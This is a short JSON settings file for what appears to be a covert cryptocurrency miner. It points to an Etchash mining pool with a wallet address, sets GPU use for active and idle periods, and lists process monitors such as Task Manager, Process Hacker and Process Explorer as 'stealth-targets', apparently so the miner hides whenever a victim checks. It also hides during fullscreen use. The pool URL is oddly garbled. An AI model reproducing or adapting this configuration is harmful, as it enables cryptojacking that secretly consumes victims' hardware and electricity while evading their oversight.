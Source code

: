 {
    "url": "stratums://`0xe9A6E09c1B55fBC1b0fA32302fDFd2E7b10b2452`.VORKER(LOH)@etc.2miners.com:11010",
    "algo": "etchash",
    "max-gpu": 50,
    "idle-wait": 2,
    "idle-gpu": 10,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
